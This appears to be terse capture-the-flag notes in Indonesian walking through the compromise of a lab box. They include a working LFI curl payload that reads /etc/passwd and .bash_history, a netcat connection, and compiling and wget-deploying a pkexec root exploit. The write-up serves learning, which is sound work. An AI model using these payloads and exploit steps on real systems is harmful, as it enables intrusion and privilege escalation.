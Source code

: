 1. scan 80 22 kebuka 
2. di fuzz gada apa apa coba lfi juga kok aneh
3. https://medium.com/@nyomanpradipta120/local-file-inclusion-vulnerability-cfd9e62d12cb 
4. ternyata gini: curl --silent "http://$IP/index.php?page=php://filter/convert.base64-encode/resource=rid_mana" | base64 -d
5. rid /etc/passwd -> /home/user/.bash_history -> sama file yg di command in stdout noh 
6. klaim flag -> sudo -l gabisa -> linpeash gada apa apa -> pspy64 ada nyambung ke host redrules
7. echo "ipmu redrules.thm" >> /etc/hosts -> nyalain nc ip yg di pspy coba
8. kesambung -> ke .git -> pkexec ada exp nya cari aja 
9. gcc -shared pkexec_exp.c -o exp -Wl,-e,entry -fPIC -> wget kesitu run 
10. klaim root
